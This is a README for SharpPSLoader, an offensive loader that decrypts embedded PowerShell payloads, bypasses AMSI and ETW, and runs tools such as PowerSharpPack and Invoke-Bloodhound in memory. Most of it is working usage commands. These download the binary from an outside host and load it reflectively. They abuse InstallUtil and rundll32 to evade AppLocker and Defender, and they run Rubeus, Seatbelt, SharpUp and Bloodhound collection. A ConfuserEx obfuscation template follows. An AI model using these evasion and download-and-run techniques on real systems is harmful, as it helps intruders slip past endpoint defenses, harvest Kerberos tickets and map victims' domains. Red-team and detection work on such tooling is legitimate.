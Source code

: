 # SharpPSLoader

SharpPSLoader is a loader for [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) and other powershell scripts, designed to bypass AMSI, Constrained Language Mode (CLM), Applocker, and Windows Defender using the [PowerPick](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) technique and LOLBAS binaries. 


SharpPSLoader works like this: 
1. Decrypt single-byte encrypted powershell payload (currently PowerSharpPack & Invoke-Bloodhound) from its resources section
2. Bypass AMSI and ETW
3. Create custom Powershell runspace and load #1 in-memory 
4. Invoke #1 powershell payload with user argument 

For detailed usage, refer to the `Usage` section below.

## Credits 
All credits goes to [@S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t), [@Jean_Maes_1994](https://twitter.com/Jean_Maes_1994), [@xpn](https://twitter.com/_xpn_), [@3xpl01tc0d3r](https://3xpl01tc0d3r.blogspot.com/), OSEP, and other researchers in the field. I just copy/pasted their code & added couple lines of code and that's all.

## Usage 

SharpPSLoaderConsole and SharpPSLoaderLibrary can be executed with the following syntax: 
```
./SharpPSLoaderConsole <payload#> <powershell_function & arguments>
ex) SharpPSLoaderConsole 1 PowersharpPack -rubeus -command "triage"
```

Current list of payloads:
```
1 = PowerSharpPack 
2 = Invoke-Bloodhound 
```

### SharpPSLoaderConsole - on-disk console 
```
(new-object net.webclient).downloadfile("http://192.168.40.130:8888/SharpPSLoaderConsole.exe","c:\users\low\desktop\SharpPSLoaderConsole.exe")
.\SharpPSLoaderConsole.exe 1 powersharppack -seatbelt -command "-group=user"
```
### SharpPSLoaderConsole - in-memory 
```
$b = (New-Object net.webclient).DownloadData("http://192.168.40.130:8888/SharpPSLoaderConsole.exe")
[System.Reflection.Assembly]::Load($b)
[SharpPSLoaderConsole.SharpPSLoaderConsole]::Main(@("1","Powersharppack -sharpup audit"))

[SharpPSLoaderConsole.SharpPSLoaderConsole]::Main(@("2","Invoke-Bloodhound -c All"))
```

### SharpPSLoaderConsole - LOLBAS - InstallUtils.exe, on-disk
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /p="<payload#> <powershell_function & argument>" /U .\SharpPSLoaderLibrary.exe

C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /p="1 PowerSharpPack -seatbelt -Command '-group=user'" /U .\SharpPSLoaderLibrary.exe
```

### SharpPSLoaderLibrary - LOLBAS - rundll32.exe, on-disk 
```
(64bit) c:\windows\system32\rundll32.exe SharpPSLoaderLibrary.dll,runLibrary 1 powersharppack -seatbelt -command -group=user 

(32bit)) C:\Windows\SysWOW64\rundll32.exe SharpPSLoaderLibrary.dll,runLibrary 1 powersharppack -seatbelt -command -group=user
```

## Usage - Powershell Payloads 
For detailed usage of PowerSharpPack and Invoke-Bloodhound, refer to the `References` section down below.

## Obfuscation - Warning 
If you want to obfuscate the assembly with confuserEx and execute it in-memory, use the  `SharpPSLoader-confuser.crproj` configuration file as a template. The configuration file's rules were specifically built to not scramble assembly types so it can be executed in-memory. If you know what you are doing, you do you.  

```
<project outputDir="<output-directory>" baseDir="<base-directory>" xmlns="http://confuser.codeplex.com">
  <module path="SharpPSLoaderConsole.exe">
    <rule pattern="true" preset="normal" inherit="false">
      <protection id="resources" />
      <protection id="rename" action="remove" />
      <protection id="typescramble" action="remove" />
      <protection id="constants" />
      <protection id="ctrl flow" />
    </rule>
  </module>
</project>
```

## References
- [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack)
- [Bloodhound](https://github.com/BloodHoundAD/BloodHound)